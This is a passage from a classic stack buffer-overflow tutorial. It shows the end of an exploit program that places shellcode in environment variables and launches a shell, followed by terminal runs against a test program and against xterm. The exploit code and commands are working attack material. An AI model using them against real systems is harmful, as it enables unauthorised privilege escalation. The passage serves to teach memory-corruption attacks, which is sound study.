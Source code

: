   memcpy(egg,"EGG=",4);
  putenv(egg);
  memcpy(buff,"RET=",4);
  putenv(buff);
  system("/bin/bash");
}
------------------------------------------------------------------------------
{% endhighlight %}

Lets try our new exploit with our vulnerable test program:

```
------------------------------------------------------------------------------
[aleph1]$ ./exploit4 768
Using address: 0xbffffdb0
[aleph1]$ ./vulnerable $RET
$
------------------------------------------------------------------------------
```

Works like a charm. Now lets try it on xterm:

```
------------------------------------------------------------------------------
[aleph1]$ export DISPLAY=:0.0
[aleph1]$ ./exploit4 2148
Using address: 0xbffffdb0
[aleph1]$ /usr/X11R6/bin/xterm -fg $RET
Warning: Color name
"




































```